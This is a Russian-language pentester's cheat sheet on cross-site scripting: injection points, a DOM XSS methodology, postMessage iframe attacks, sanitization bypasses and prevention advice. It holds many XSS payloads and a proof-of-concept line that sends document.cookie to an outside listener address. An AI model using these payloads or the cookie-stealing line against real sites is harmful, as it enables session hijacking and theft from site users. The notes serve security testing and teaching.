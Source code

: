 # Поиск точек для ввода
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Существует несколько способов выполнения JavaScript в HTML:
1. Тег <script>
2. Обработчики событий в атрибутах (начинающиеся с on)
    <img src=x onerror=alert(1)> <audio src=x onerror=alert(1)> <iframe src=x onerror=alert(1)> <video src=x onerror=alert(1)>
3. Псевдопротокол javascript:
    https://target/login?target=javascript:alert(1)
4. Перенаправление страниц query параметры
    ?returnTo=javascript:alert(document.cookie)
5. Обход санитизации
     " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//

Для XSS важно понимание построения DOM в браузере и то как попадает пользовательский ввод на страницу. 
Есть три основных способа:
* <b>innerText</b> выводит только текст без HTML-форматирования, идентичный тому, как если бы вы смотрели на страницу. > пользовательский ввод интерпритируется как обычный текст. innerText учитывает CSS-правила, и если элемент скрыт через display: none, он не попадет в вывод innerText.
console.log(document.querySelector('.styledText').innerText);
* <b>innerHTML</b> позволяет манипулировать HTML-структурой элементов, включая теги и стили. Это уязвимость для XSS. Но <script> не отработает, т.к. важно понимать контект вставки (какой тег). Но <img src="qweqwe" onerror="alert()"> может быть исполнен
// Добавляем HTML-элементы
document.querySelector('.content').innerHTML = '<div class="new">Новый элемент</div>';
* <b>value></b> применяется для работы с значениями интерактивных элементов, таких как input, textarea или select.
// Значения, введенные пользователем, становятся данными
document.querySelector('#username').value = 'user123';

### Методика: 
1. Вставить текст и понять где на странице отобразилось сообщение: <b>blablabla</b>
2. Открыть консоль разработчика и найти место вывода ввода
[+] пропали теги и текст выделен > innerHTML
[-] теги сохранились innetText, value >
[?] теги санитизированы

### DOM XSS
Поиск DOM XSS нетривиальная задача, но базово сводится к поиску точки ввода (source) и обработчика (sink)
Для автоматизации можно использовать SAST / DOM Invader / Ручной анализ кода

Вставить текст и понять где на странице отобразилось сообщение: 
<b>blablabla</b>           # <img src=x onerror=alert(1)>
{{ 9 * 9}}                 # {{$on.constructor('alert(1)')()}}
""--blablabla              # ""--alert--""
'"--blablabla              # '"--alert--"'
\"-alert(1)}//             # экранирование нагрузки и комментирование кода JS 

##### Web Messaging. postMessage()
- обмен информацией между вкладками
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages 
```js
// DevTools Console:
>>> window.postMessage('TEST')
    TEST // также проверить где на странице отобразился этот пайлоад
>>> window.postMessage('<img src=x onerror=alert(1)>')
>>> window.postMessage('javascript:print(1)')
// Vulnerable code (sample)
// Можно найти через DevTools > Global Listeners > message > [список обработчиков]
addEventListener < source слушатель
.innerHTML < sink которая выводит на страницу HTML результат
location.href < sink инициируют переадресацию в веб-браузере. Уязвимость можно выполнить код location.href = "javascript:print()"
```
PoC: Идея в том, что жертва переходит на сайт хакера, где содержится код обращающийся к открытому сайту в соседней вкладке
`<iframe src="URL" onload="contentWindow.postMessage('PAYLOAD','*');">`

`<iframe src="https://vulnerable.lab/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`
Защита:
```
1. Использование заголовков
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
2. Проверка в коде заголовков `Origin` и `source`
3. Не использовать addEventListener
4. Не использовать уязвимые обработчики событий
```

[+] тест отобразился в контексте </script> или обработчиках особенно:
    element.innerHTML = "<HTML> Tags and markup";
    element.outerHTML = "<HTML> Tags and markup";
    document.write
    innerHTML
    document.getElementById
    location.search
[+] тест отобразился в URL /?search=<b>blablabla<%2Fb>
[+] наличие eval в фронтальных скриптах
Альтернативно открыть консоль разработчика и в консоли вставить 
`document.getElementsByTagName(“body”)`
`body = document.getElementsByTagName("body")[0]`
`body.innerHTML`
`body.innerHTML = "<h1>Magic!</h1>"`

3. Обход санитизации
Найти функции типа replace
|Скрипт санитизации                             |Способ обхода                  |
|-----------------------------------------------|-------------------------------|
|html.replace('<', '&lt;').replace('>', '&gt;');|<><img src=1 onerror=alert(1)> |
 

'-alert(1)-'
""alert(1)-'

### POC
```
onerror=document.location=’http://192.168.48.165:8000/c?c=’+document.cookie>
```
 
 
# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/coffinxp/payloads/tree/main"
https://aszx87410.github.io/beyond-xss/en/

# How to prevent
- использование CSP
- Валидация пользовательского ввода по белым (разрешенным) спискам
- Использование санитизации. Используйте библиотеки, такие как [sanitize-url](https://www.npmjs.com/package/@braintree/sanitize-url) или [DOMPurify](https://www.npmjs.com/package/dompurify). Для приложений обрабатывающих критичные данные, с большим количеством пользователей или имеющих выход в интернет - санитизация и валидация должна быть реализована как на фронтальном так и на серверном компоненте.
- Не передавайте пользовательский ввод в контекст innerHTML
- Не используйте опасные функции eval(),
- При использовании фреймворков (vue.js, react.js, django.py, etc):
    * Никогда не используйте ненадёжные шаблоны 
    ```js
    Vue.createApp({
    template: `<div>` + userProvidedString + `</div>` // НИКОГДА ТАК НЕ ДЕЛАЙТЕ
    }).mount('#app')
    ```